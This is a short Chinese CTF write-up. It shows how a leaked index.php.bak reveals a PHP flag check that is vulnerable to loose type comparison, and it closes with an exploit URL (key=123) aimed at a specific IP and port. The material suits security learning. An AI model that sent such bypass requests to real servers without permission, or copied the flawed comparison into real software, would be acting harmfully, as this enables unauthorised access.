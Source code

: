## 21001

提示`Try to find out source file!`，于是扫一下目录发现`index.php.bak`:

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
`$key == $str`时给`flag`

`key`必须是数字，而`str`是字符串

由于php弱类型，`str`在比较时`"123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3"=123`

所以`key=123`即可绕过比较

exp:

```http
http://106.15.207.47:21001/?key=123
```